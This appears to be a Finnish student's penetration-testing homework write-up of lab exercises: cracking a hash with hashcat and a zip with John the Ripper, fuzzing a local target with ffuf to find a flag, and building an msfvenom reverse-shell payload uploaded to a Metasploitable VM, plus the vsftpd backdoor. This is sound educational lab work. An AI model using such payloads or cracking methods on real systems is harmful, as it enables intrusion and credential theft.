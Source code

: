 # Lue ja tiivistä

- Fuzzer: Voi löytää URL-domaineista piilotettuja sivuja ja domaineja joita voi tarkastella. Teknisesti tätä samaa työtä voi tehdä manuaalisesti, mutta se on moninkertaisesti nopeampaa käyttäen [ffuffin](https://github.com/ffuf/ffuf) kaltaista työkalua

- Hashcat: Nykyaikana on todella harvinaista löytää salasanaa tallennettuna raakatiedostona serverillä, sen sijaan monet serverit kääntävät talletetut salasanat hasheiksi tietynlaisilla algorithmeilla. Internetin mukaan [Bcrypt](https://www.npmjs.com/package/bcrypt), joka on kehitetty [Blowfishistä](https://en.wikipedia.org/wiki/Blowfish_(cipher)), on yksi käytetyimmistä salasana-hasheista nykyaikana. Hashcat yrittää tunnistaa bruteforce-metodilla sanaa, jonka hash vastaa sille syötettyä hashia, näin avaten hashin sisältämän salasanan.

- [John](https://www.openwall.com/john/) the Ripper on samankaltainen työkalu, mutta Johnilla voi kokeilla suoria sanakirjahyökkäyksiä esimerkiksi .zip tiedostojen suojauksiin.

# A) Asenna Hashcat ja kokeile toimivuutta murtamalla esimerkkisalasana

Hashcatin asennusta ei tarvinnut omassa tapauksessa tehdä, sillä Kali Linuxin mukana tulee Hashcatin versio 6.2.6

![image](https://github.com/konetoivonen/laksyt/assets/164856618/740085e3-e0c1-4b3b-94d9-104b3587c1c0)

Ladataan salasanakirjasto Githubista, itse olen koko repon ladannut aikaisemmin HackTheBoxia tehdessä, niin nappaan vain reposta tarvittavan tekstitiedoston, ja liitän sen luotuun "Hashed" kansioon

![image](https://github.com/konetoivonen/laksyt/assets/164856618/b95a6de6-5265-4bd0-a69e-926bfe8e01eb)

Aloitetaan esimerkkisalasanan hashin murtaminen seuraavalla komennolla:

    hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Hetken kuluttua saadaan vastaus:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/08a225b3-2a65-4ee5-983c-d14d3deecef2)

Salasana on siis:

    summer


# B) Ratkaise dirfuzt-1 

Laitetaan dirfuzt-1 päälle

![image](https://github.com/konetoivonen/laksyt/assets/164856618/37b849e1-68db-464b-b325-79ebc64ea366)

Laitetaan ffuzzeri fuzzaamaan

![image](https://github.com/konetoivonen/laksyt/assets/164856618/8e7126da-b3f5-4160-95cc-9e0a9bab672e)

Tuloksia tutkiessa olin aluksi hieman hukassa siitä, miten oikea sivu pitäisi löytää kaiken tämän joukosta ja vaikka ffuffissa on todella laajat filtteriasetukset, en niitä jaksanut säätää, sillä huomasin tuloksia selatessa, että viidellä sivulla oli sanamäärä 6, kun taas lopuilla oli 9, joten filtteröin ne terminaalin Find komennolla ja löysin sivut, jotka kun avasi, sai kyseisen viestin

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c32e24e4-1ce2-43ba-a5bb-066a5bf11caa)

Näitä sivuja olivat siis: 

    127.0.0.2:8000/wp-admin
    127.0.0.2:8000/.git/config
    127.0.0.2:8000/.git/HEAD
    127.0.0.2:8000/.git/index
    127.0.0.2:8000/.git/logs/

Pakko sanoa, että oma ratkaisuni on sen verran outo, etten ole varma onko ratkaisuni edes oikein, mutta ainakin sivut näyttävät kyseisen viestin;

    You found it! FLAG{tero-git-3cc87212bcd411686a3b9e547d47fc51}

Joten merkisten sen vuoksi tehtävän tehdyksi. Odotan innolla päästä näkemään muiden ratkaisuja ja katsomaan kuinka muut ratkaisivat kyseisen tehtävän!

# C)

Kali Linuxia käyttäessä huomaa, että John the Ripper on jo asennettu, joten tarkistetaan sen olemassaolo ja ladataan esimerkkimateriaali 'wget'-komennolla

![image](https://github.com/konetoivonen/laksyt/assets/164856618/daab3fbf-a4a7-419a-a1c2-5e57a0ecf899)

Sen jälkeen huomataan, että .zip tiedosto on salasanasuojattu, ohjeen mukaisesti muunnetaan John the Ripper-työkalulla salasanasuojattu .zip tiedosto .zip.hash tiedostoksi ja laitetaan John the Ripper työstämään annettua .hash tiedostoa

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fead3699-f0b2-42e8-b039-af83213c5e55)

Huomataan, että salasana on 

    butterfly

Puretaan arkisto annetulla salasanalla ja avataan sisältö

![image](https://github.com/konetoivonen/laksyt/assets/164856618/d564a86d-f427-4ffc-8888-0e21003c224c)

# D)

Basic Content Discovery:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/38fd4955-4752-4d53-92fc-ef4277124030)

Content Discovery With Recursion:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/1ef30fd0-41d4-4c21-bd14-1e7360ca50f0)

Content Discovery With File Extensions:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/5bc23af2-5c55-4d0f-b492-559cc244c2a4)

No 404 Status:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/fe704330-35e7-43a3-9352-886db739b7be)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/74b71945-3326-4f2a-96d1-d49ffd061863)

Param mining:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/66ce3daf-438f-42ba-934a-81af1f961100)

Rate Limited:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/a9894abd-2d7a-4a1e-85ef-3045a552d19f)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/c8ae648a-fb58-4fa6-8d1e-9560812a715f)

Subdomains - Virtual Host Enumeration

![image](https://github.com/konetoivonen/laksyt/assets/164856618/4bbdb919-7172-4bb9-8c6a-cb7ace1ef8fb)

![image](https://github.com/konetoivonen/laksyt/assets/164856618/ea60e6a9-75bd-42e3-8fd5-58a39329e77d)

# e) 


Tein Metasploitilla seuraavannäköisen haittaohjelman

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15  LPORT=4444 -f elf > shell-x64.elf

Muodostin FTP-yhteyden Metasploitable-koneeseen ja siirsin tiedoston koneelle "put"-komennolla


![image](https://github.com/konetoivonen/laksyt/assets/164856618/fabea6dd-d4ae-4901-8ce4-18075ef09a5b)


Jotta tiedostosta voidaan tehdä ajettava executable, muodostetaan myös erillinen SSH-yhteys koneeseen


![image](https://github.com/konetoivonen/laksyt/assets/164856618/f0f21cd0-ce8e-40c0-9fe9-a93ad7b79345)

Tehdään seuraavalla komennolla .elf-tiedostosta ajettava tiedosto:

    msfadmin@metasploitable:~$ chmod +x shell2-x64.elf

Tässä kohdassa oma kokeilu jäi tähän. Sain siirrettyä tiedoston, sain tehtyä siitä ajettavan binääritiedoston, mutta kun ajan sen, kone näyttää tyhjää eikä TCP-listenerin taakse ilmesty ikinä Meterpreter-sessiota. 

Tarkistin, että arkkitehtuuri on annettu oikein ja rakennettu oikein. Tiedosto myös selkeästi ajaa koneella, mutta se ei vain anna Kali-koneelle TCP-instanssia. En ymmärrä mitä teen väärin ja näin 00:54 en yksinkertaisesti kykene selvittämään mikä mättää enempää. On tätä työstetty kuitenkin jo ainakin 5 tuntia.

Alla hieman yksinkertaisempi tapa saavuttaa sama asia tuottamatta niin paljoa päänvaivaa käyttämällä yksinkertaista vsftpd_234_backdoor-takaovea:

![image](https://github.com/konetoivonen/laksyt/assets/164856618/9b2d117e-d064-4379-bef2-20877a2070d6)


# f)

Tämän koneen kanssa säätö kyllä ärsyttää aika paljon, mutta alla asennettu virtuaalikone Windows 10-käyttöjärjestelmällä


![image](https://github.com/konetoivonen/laksyt/assets/164856618/0b54a783-b2ef-4487-8211-21236df92219)


# g)

Remminan avulla sain muodostettua juuri-luotuun Windows-virtuaalikoneeseen yhteyden RDP:n kautta. Ongelmana oli aluksi, etten ollut laittanut RDP-toimivuutta päälle Virtualboxin asetuksista, jonka vuoksi yhteys ei muodostunut. Raksutin päätä ainakin tunnin kunnes päätin käydä ulkona, palasin sisälle ja katsoin asetuksia ja huomasin että koneen asetuksissa "Remote Desktop Server" oli pois päältä. Kun asensin VirtualBox-lisäosat jotka mahdollistivat toimivuuden ja laitoin sen päälle, yhteys muodostui ilman ongelmia.


![image](https://github.com/konetoivonen/laksyt/assets/164856618/b1bd928e-1aed-4b15-acb0-99f3fa33335b)





